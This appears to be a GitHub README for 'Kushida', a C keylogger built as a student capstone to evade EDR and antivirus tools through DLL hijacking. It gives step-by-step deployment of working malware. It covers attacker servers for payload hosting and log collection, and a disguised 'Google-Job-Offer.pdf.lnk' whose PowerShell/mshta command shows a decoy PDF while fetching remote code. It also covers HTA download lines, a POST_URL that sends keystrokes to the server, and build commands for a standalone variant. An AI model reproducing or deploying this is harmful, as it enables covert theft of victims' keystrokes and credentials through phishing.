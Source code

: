 # Kushida
This is the Kushida keylogger developed for my fall 2023 Bachelor's capstone project. It was developed for research and academic purposes.

Kushida is a keylogger written in C. It is a proof of concept for evading modern EDR and AV programs. It successfully evades many EDR solutions by using DLL hijacking.

# Setting up the server

The server should be a Linux server and needs to have Python 3 installed, and the victim needs to have the ability to initiate a TCP connection to the server. The libraries the server uses are part of the Python standard library.

Two services need to be run for this server:
1. The HTTP file service
2. The HTTP log collection service
To run the HTTP file service
1. Download the KeyloggerFiles Folder from the repository
2. Place the KeyloggerFiles folder in your file system (anywhere is fine).
3. Change directories into the KeyloggerFiles folder and run the following command:

```bash
sudo python3 -m http.server 80
```

If you want to background the process, you press CTRL+Z, then type bg. 

Next, to set up the HTTPS log collection service, we need to download the httpsServer folder from the repository.
1. Change directories inside the downloaded the httpsServer folder
2. Generate keys if needed
3. Then, run the Python file inside the folder with:
```bash
python3 httpsServer.py
```
Keys are provided in the repository, however, you can generate your own keys with the following openssl command:
```bash
openssl req -new -x509 -keyout key.pem -out server.pem -days 365 -nodes
```

The services should now be running on all interfaces. The ports that are used are port 80 for the HTTP file server and 8080 for the HTTPS server. These values can be modified if needed, however, you will also need to modify the ports of the malware accordingly.

# Building and running Kushida
Change the files accordingly.

## Google-Job-Offer.pdf.lnk
This is the malicious "PDF" which will present a PDF to the user and install Kushida.
Replace the IP address `192.168.12.95` with your server's IP address.
```PowerShell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe "& start microsoft-edge:http://192.168.12.95/Google-Job-Offer.pdf; C:\Windows\System32\mshta.exe http://192.168.12.95/FileDownloader.hta"
```

## FileDownloader.hta
This script is downloaded by the lnk
Replace the IP address `192.168.12.95` with your server's IP address.
```javascript
var fileUrl1 = "http://192.168.12.95/cscapi.dll";  
var fileUrl2 = "http://192.168.12.95/libcurl-d.dll"; 
var fileUrl3 = "http://192.168.12.95/zlibd1.dll";
```

## cscapi.dll

This is the keylogger itself. To compile this, we need vcpkg installed.

Installation instructions can be found here: [Get started with vcpkg](https://vcpkg.io/en/getting-started.html)

Then open a command prompt, change directories to the vcpkg directory you installed, and enter the following command:
```
vcpkg.exe install curl[tool]
```

You may need to reload Visual Studio after installing libcurl.

Change the `POST_URL` definition to the URL your server uses. By default, just change the IP address. 
```
#define POST_URL "https://192.168.12.95:8080/file.txt"
```

Now, in Debug 64-bit mode, build the program using Visual Studio. You can also build the program in Release, however, you would have to change the names for `libcurl-d.dll` and `zlibd1.dll` to `libcurl.dll` and `zlib1.dll` respectively. 

If you need to target a 32-bit application, compile the DLL in 32-bit mode.

Now place the programs you have built into the KeyloggerFiles folder on your server.

# Kushida in action

![Pasted image 20231130001641](https://github.com/nszeto168/kushida/assets/103395342/8e7d322b-a74d-461a-9a6a-380653d11625)

The malicious and non-malicious PDFs are nearly identical.


![Pasted image 20231130001719](https://github.com/nszeto168/kushida/assets/103395342/c3e54f42-3513-4713-9fd0-032c603afccf)

The malicious LNK file will open a PDF for the victim, making it seem legitimate.

![Pasted image 20231130002042](https://github.com/nszeto168/kushida/assets/103395342/0b9c52b0-4fd0-4efb-947c-abe7265e651e)

![Pasted image 20231130002120](https://github.com/nszeto168/kushida/assets/103395342/f96268b6-07d4-4d84-aff9-218def0392f4)


The keylogging should start. Whenever Kushida starts up and is loaded into memory, it will execute DLLMain, which will send log.txt to the HTTPS server.
![Pasted image 20231130002157](https://github.com/nszeto168/kushida/assets/103395342/3bf41847-5141-4788-9ce4-33608da8fbfd)


# Kushida Solo (standalone exe)

There is a modified version of Kushida available which functions as a standalone exe file. This exe file can be useful because certain EDRs may be triggered by DLL hijacking or the malicious LNK file. However, the DLL hijacking method tends to be a stealthier solution long term because it makes far less "noise".

There are some benefits to Kushida Solo:
- With Kushida Solo, you do not need `libcurl-.dll` nor `zlibd1.dll`.
- Kushida Solo can be compiled either as a 32-bit or a 64-bit application.
- Kushida Solo may evade some defenses more effectively (generally Kushida as a DLL is better though).

## Building Kushida Solo
![Pasted image 20231130003706](https://github.com/nszeto168/kushida/assets/103395342/db46e388-9724-4d71-b7fe-7e2fcc6d94b1)


Change Kushida's send frequency in keylogger.h. By default, it is every 5 seconds. This makes a lot of noise and is not recommended, however, it is good for testing.

Also, change the hostname definition in keylogger.cpp
![Pasted image 20231130005729](https://github.com/nszeto168/kushida/assets/103395342/545ad103-0dce-44b8-8597-4e7168f99d76)


VisualStudio's build tool does not seem to work when compiling Kushida solo, so we can compile it with cl.exe

Change directories to the `keylogger` directory, then run:
```PowerShell
cl.exe keylogger.cpp /link /OUT:kushida.exe winhttp.lib user32.lib kernel32.lib
```

Now you should have a standalone executable. The executable generates a log file in the same directory as itself.
You will still need to run the HTTPS log collection server, however, you will not need the HTTP file server when using Kushida Solo.

# Results
![image](https://github.com/nszeto168/kushida/assets/103395342/880607eb-b469-408e-bfaf-10a3e30f9f1e)

Thanks for checking out the Kushida keylogger, I hope you enjoyed it!
